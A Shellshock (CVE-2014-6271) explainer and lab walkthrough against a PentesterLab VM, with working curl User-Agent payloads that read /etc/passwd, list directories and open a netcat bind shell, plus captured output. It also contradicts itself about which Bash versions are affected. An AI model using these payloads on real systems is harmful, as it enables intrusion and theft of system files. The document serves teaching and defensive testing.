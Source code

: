 Shellshock Explained + Exploitation Tutorial
##Introduction
Shellshock is a “code injection attack” that takes advantage of a function definition vulnerability in Bash 4.3 and earlier.<br>
The vulnerability is caused by Bash processing trailing strings after function definitions in the values of environment variables. In Bash 4.3 and later, these trailing strings will not be executed.
##Testing
To test if your system is vulnerable, simply run the command below in a Bash shell.
<code>
<div class="code">
user@debian8:~$ <com>env x='() { :;}; echo vulnerable' bash -c "echo not-vulnerable"</com>
</div>
</code>
If 'vulnerable' is echoed back, your system is vulnerable, since echo vulnerable is directly after the function definition env x='() { :;};<br>
A response of 'not-vulnerable' indicates your system is not vulnerable to the test above.<br>
Note: Additional tests should be performed to confirm your system is not vulnerable to Shellshock.<br>
These tests can be found on the Shellshocker Website - <https://shellshocker.net/>
##Exploitation
Launch the 'Pentester Lab: CVE-2014-6271 Shellshock' VM (<https://pentesterlab.com/exercises/cve-2014-6271>) then browse to the VM’s IP in your web-browser.<br>
You will be presented with the output of the [uptime] and [uname -a] Linux commands, running on the Pentesterlab VM.

> CVE-2014-6271<br>
> This system is running:<br>
> uptime: 20:44:15 up 0 min, 1 users, load average: 0.06, 0.01, 0.00<br>
> kernel: Linux vulnerable 3.14.1-pentesterlab #1 SMP Sun Jul 6 09:16:00 EST 2014 i686 GNU/Linux<br>

View the page source and you’ll notice the location of the CGI (<http://www.techrepublic.com/article/cgi-crash-course-how-to-run-cgi-scripts/>) script that is executed on the server.

> $.getJSON("/cgi-bin/status", function (data) {<br>

Let’s use curl to launch a few shellshock attacks against the status CGI script via the User-Agent string (-A in curl).
##Passwd File
<code>
<div class="code">
user@debian8:~$ <com>curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/cat /etc/passwd' http://192.168.1.14/cgi-bin/status > passwd</com><br>
<br>
user@debian8:~$ <com>cat passwd</com><br>
root:x:0:0:root:/root:/bin/sh<br>
lp:x:7:7:lp:/var/spool/lpd:/bin/sh<br>
nobody:x:65534:65534:nobody:/nonexistent:/bin/false<br>
tc:x:1001:50:Linux User,,,:/home/tc:/bin/sh<br>
pentesterlab:x:1000:50:Linux User,,,:/home/pentesterlab:/bin/sh 
</div>
</code>
##Directory Listing
<code>
<div class="code">
user@debian8:~$ <com>curl -A '() { :;}; echo "Content-Type: text/plain"; echo; /bin/ls /' http://192.168.1.14/cgi-bin/status</com><br>
bin<br>
boot<br>
dev<br>
etc<br>
home<br>
init<br>
...
</div>
</code>
##Bind Shell
Bind an instance of Bash to a netcat listener on port 2345 and connect.<br>
After executing the bind shell on the Shellshock VM (/usr/bin/nc -lvvp 2345 -e /bin/bash) you will need to open a new terminal window to connect using (nc -vn 192.168.1.14 2345)
<code>
<div class="code">
user@debian8:~$ <com>curl -A '() { :; }; /bin/bash -c "/usr/bin/nc -lvvp 2345 -e /bin/bash"' http://192.168.1.14/cgi-bin/status</com><br>
<br>
user@debian8:~$ <com>nc -vn 192.168.1.14 2345</com><br>
(UNKNOWN) [192.168.1.14] 2345 (?) open<br>
<br>
<com>whoami</com><br>
<com>pentesterlab</com><br>
<br>
<com>/sbin/ifconfig</com><br>
[eth0]<br>
Link encap:Ethernet HWaddr 08:00:27:84:1F:23<br>
inet addr:192.168.1.14 Bcast:192.168.1.255 Mask:255.255.255.0<br>
inet6 addr: fe80::a00:27ff:fe84:1f23/64 Scope:Link<br>
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1<br>
RX packets:742 errors:0 dropped:0 overruns:0 frame:0<br>
TX packets:426 errors:0 dropped:0 overruns:0 carrier:0<br>
collisions:0 txqueuelen:1000<br>
RX bytes:57418 (56.0 KiB) TX bytes:246492 (240.7 KiB)<br>
Interrupt:10 Base address:0xd020
</div>
</code>
##Conclusion
The examples above demonstrate a tiny fraction of what is possible using the Shellshock vulnerability.<br>
<br>
Additional attack vectors include:<br>
– OpenSSH server<br>
– DHCP clients<br>
– Qmail server<br>
– IBM HMC restricted shell<br>
<br>
If your system is vulnerable, ensure it is patched immediately by upgrading your version of Bash then re-testing.

Tags: shellshock
